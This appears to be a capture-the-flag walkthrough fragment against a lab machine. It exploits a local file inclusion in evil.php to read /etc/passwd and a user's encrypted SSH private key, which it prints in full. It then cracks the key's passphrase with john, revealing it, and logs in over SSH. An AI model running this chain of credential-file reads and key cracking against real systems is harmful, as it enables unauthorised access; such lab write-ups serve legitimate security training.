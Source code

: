 -  ffuf \-c \-r \-u "[http://192.168.201.212/secret/evil.php?FUZZ=/etc/passwd](#http://192.168.201.212/secret/evil.php?FUZZ=/etc/passwd)
" \-w /usr/share/wordlists/dirbuster/directory\-list\-2\.3\-medium\.txt \-fs 0
-  command
-  view\-source:[http://192.168.201.212/secret/evil.php?command=/etc/passwd](#http://192.168.201.212/secret/evil.php?command=/etc/passwd)
\-\> displays resource \(includes\(\)\) function

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www\-data:x:33:33:www\-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug\-Reporting System \(admin\):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
\_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd\-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd\-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd\-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
systemd\-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

view\-source:[http://192.168.201.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa](#http://192.168.201.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa)


\-\-\-\-\-BEGIN RSA PRIVATE KEY\-\-\-\-\-
Proc\-Type: 4,ENCRYPTED
DEK\-Info: DES\-EDE3\-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6\+K1Uap/FYWcsEklzONt\+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5\+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7\+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
\+gzWGBUmKTOLO/gcuAZC\+Tj\+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom\+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n\+krZ6T\+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ\+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h\+NOofUrVtfJZ/OnhtMKW\+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx\+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm\+8XViMQccgQAaZ\+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS\+bD1
tHBy6UOhKCn3H8edtXwvZN\+9PDGDzUcEpr9xYCLkmH\+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI\+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI\+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M\+iDZUF4S0BD3xA/zp\+d98NnGlRqMmJK\+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2\+mgaZ3nq55eqzXRh0U1P5QfhO\+V8WzbVzhP6\+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa\+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ\+wDwQEQDzNeOj9zBh1\+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia\+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf\+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m\+zphg0QjWH131gnaBIhVIj1nLnTa
i99\+vYdwe8\+8nJq4/WXhkN\+VTYXndET2H0fFNTFAqbk2HGy6\+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE\+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
\-\-\-\-\-END RSA PRIVATE KEY\-\-\-\-\-

-  ssh2john id\_rsa \> ssh\.hash
-  john ssh\.hash \-\-wordlist=/usr/share/wordlists/rockyou\.txt
-  unicorn          \(id\_rsa\)   
-  ssh \-i id\_rsa mowree@192\.168\.201\.212 